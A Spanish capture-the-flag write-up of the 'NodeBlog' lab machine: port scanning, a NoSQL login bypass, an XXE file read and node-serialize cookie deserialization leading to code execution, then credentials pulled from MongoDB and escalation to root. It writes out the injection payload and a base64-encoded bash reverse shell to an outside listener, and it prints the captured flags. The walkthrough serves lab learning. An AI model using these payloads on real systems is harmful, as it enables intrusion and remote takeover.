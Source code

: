 ```yaml
---
title: 'CTF - NodeBlog WriteUP'
date: '2022-02-01'
tags: ["#Import 2022-12-20 21:06"]
draft: true
authors: ['default']
summary: 'Resumen: Reto CTF que consiste en encontrar vulnerabilidades en una máquina CTF de Capture The Flag. Se exploran puertos, se intentan inyecciones SQL y se descubre una vulnerabilidad de XML External Entity que permite ejecutar código. Se logra obtener acceso de root y se obtienen las flags.'
images: ["/static/images/uploads/ctf-nodeblog-writeup/Screenshot_1.webp", "/static/images/uploads/ctf-nodeblog-writeup/Screenshot_2.webp", "/static/images/uploads/ctf-nodeblog-writeup/Screenshot_4.webp", "/static/images/uploads/ctf-nodeblog-writeup/Screenshot_5.webp"]
---
```


![](/static/images/uploads/ctf-nodeblog-writeup/Screenshot_1.webp)

nmap me cuesta descubrir cosas. He tenido que ralentizar el comando de descubrir todos los pueortos porque no me encontraba ninguno más que el 22, A si que lo he lanzado normal


```
nmap -p- --open -sT -vvv -n -Pn 10.10.11.139 -oG allPorts
```
y despues


```
nmap -p22,5000 -sCV -n -Pn -vvv 10.10.11.139 -oN targeted
# Scanned at 2022-02-01 20:20:50 CET for 15s
# PORT     STATE SERVICE REASON         VERSION
# 22/tcp   open  ssh     syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
# | ssh-hostkey: 
# |   3072 ea:84:21:a3:22:4a:7d:f9:b5:25:51:79:83:a4:f5:f2 (RSA)
# | ssh-rsa
# |   256 b8:39:9e:f4:88:be:aa:01:73:2d:10:fb:44:7f:84:61 (ECDSA)
# | ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBJZPKXFj3JfSmJZFAHDyqUDFHLHBRBRvlesLRVAqq0WwRFbeYdKwVIVv0DBufhYXHHcUSsBRw3/on9QM24kymD0=
# |   256 22:21:e9:f4:85:90:87:45:16:1f:73:36:41:ee:3b:32 (ED25519)
# |_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIEDIBMvrXLaYc6DXKPZaypaAv4yZ3DNLe1YaBpbpB8aY
# 5000/tcp open  http    syn-ack ttl 63 Node.js (Express middleware)
# |_http-title: Blog
# | http-methods: 
# |_  Supported Methods: GET HEAD POST OPTIONS
# Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Foto

![](/static/images/uploads/ctf-nodeblog-writeup/Screenshot\_2.webp)

Tiene un login.

Probamos sqlmap y no tiene inyecciones sql.


```
❯ curl -X POST nodeblog.htb:5000/login -H "Content-Type: application/json" -d "this is not a json"





Error



```
SyntaxError: Unexpected token t in JSON at position 0  
 &nbsp; &nbsp;at JSON.parse (&lt;anonymous&gt;)  
 &nbsp; &nbsp;at createStrictSyntaxError (/opt/blog/node_modules/body-parser/lib/types/json.js:158:10)  
 &nbsp; &nbsp;at parse (/opt/blog/node_modules/body-parser/lib/types/json.js:83:15)  
 &nbsp; &nbsp;at /opt/blog/node_modules/body-parser/lib/read.js:121:18  
 &nbsp; &nbsp;at invokeCallback (/opt/blog/node_modules/raw-body/index.js:224:16)  
 &nbsp; &nbsp;at done (/opt/blog/node_modules/raw-body/index.js:213:7)  
 &nbsp; &nbsp;at IncomingMessage.onEnd (/opt/blog/node_modules/raw-body/index.js:273:7)  
 &nbsp; &nbsp;at IncomingMessage.emit (events.js:412:35)  
 &nbsp; &nbsp;at endReadableNT (internal/streams/readable.js:1334:12)  
 &nbsp; &nbsp;at processTicksAndRejections (internal/process/task_queues.js:82:21)
```




```
Esta intentando parsear json. nosql injection?


```
❯ curl -X POST nodeblog.htb:5000/login -H "Content-Type: application/json" -d "{\"user\":,\"password\":{\"\$gt\":\"\"}}"
# funciona
```
Con burpsuite/repeater prueblo a hacer la llamada y mando al navegador la sesion iniciada

fotos de burpsuite y el boton upload

Subo un archivo normal y me sale esto si veo el html


```
Invalid XML Example: 

 Example Post
 Example Description
 Example Markdown

```
Veo que se pueden escribir articulos con 

* title
* description
* markdown

Me genero un xml 


```

hola
aaa
md

```
Y me lleva a la ventana de articulo con todo relleno.

Encuentro informacion sobre una vulnerabilidad de XML External entity (https://hackmd.io/@Chivato/rkSqk9gbL) y veo que se puede ejecutar codigo


```
xml version="1.0" encoding="ISO-8859-1"? 
 ]

hola
aaa
&xxe;

```
![](/static/images/uploads/ctf-nodeblog-writeup/Screenshot\_4.webp)

Es vulnerable. Modifico el script para probar otras cosas.

Me acuerdo de que cuando me daba el error de json, me daba una ruta donde estaba la app /opt/blog

Encuentro que un archivo tipico de nodejs es el server.js e imprimo su contenido /opt/blog/server.js

Veo que usa node-serializer [https://snyk.io/test/npm/node-serialize#:~:text=node-serialize serializes an object,into the unserialize() function](https://snyk.io/test/npm/node-serialize#:~:text=node%2Dserialize%20serializes%20an%20object,into%20the%20unserialize()%20function).

En server.js veo que el serializador parsea la cookie y la vulnerabilidad esta en que en la cookie puedes poner codigo que ejecuta el programa.

con burpsuite hago pruebas y veo que a veces ejecuta codigo y a veces no. Como hay serializaciones y demas, escribo el codigo en base64 intentando que no haya ni '+' ni '=' poniendo espacios.


```
❯ echo -n "bash -i >& /dev/tcp/10.10.14.9/443 0>&1" | base64
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC45LzQ0MyAwPiYx
❯ echo -n "bash -i  >& /dev/tcp/10.10.14.9/443 0>&1" | base64
YmFzaCAtaSAgPiYgL2Rldi90Y3AvMTAuMTAuMTQuOS80NDMgMD4mMQ==
❯ echo -n "bash -i  >& /dev/tcp/10.10.14.9/443  0>&1" | base64
YmFzaCAtaSAgPiYgL2Rldi90Y3AvMTAuMTAuMTQuOS80NDMgIDA+JjE=
❯ echo -n "bash -i  &  /dev/tcp/10.10.14.9/443  0>&1" | base64
YmFzaCAtaSAgPiYgIC9kZXYvdGNwLzEwLjEwLjE0LjkvNDQzICAwPiYx

# Copio el siguiente código en la cookie de burpsuite
# echo -n YmFzaCAtaSAgPiYgIC9kZXYvdGNwLzEwLjEwLjE0LjkvNDQzICAwPiYx | base64 -d | bash
```
![](/static/images/uploads/ctf-nodeblog-writeup/Screenshot\_5.webp)

Antes de enviarlo, codifico el contenido de auth= a URLEncoding

Me pongo en esuccha en mi equipo con netcat y estoy dentro.

Entramos a mongodb y buscamos informacion del usuario


```
❯ admin@nodeblog:/opt/blog$ mongo 127.0.0.1
❯ show databases
admin   0.000GB
blog    0.000GB
config  0.000GB
local   0.000GB
❯ use blog
switched to db blog
❯ show collections
articles
users
❯ db.users.find()
{ "_id" : ObjectId("61b7380ae5814df6030d2373"), "createdAt" : ISODate("2021-12-13T12:09:46.009Z"), "username" : "admin", "password" : "IppsecSaysPleaseSubscribe", "__v" : 0 }
```
Tenemos la contraseña. Vamos a probar a ejecutar 


```
❯admin@nodeblog:/opt/blog$ sudo su -
[sudo] password for admin: 
❯ root@nodeblog:~# whoami
root
❯ root@nodeblog:~# cat /home/admin/user.txt
e83b0edb016a7146e2e5aa00f4416730
❯ root@nodeblog:~# cat root.txt
b38f827567b54906d52439592c719952
```
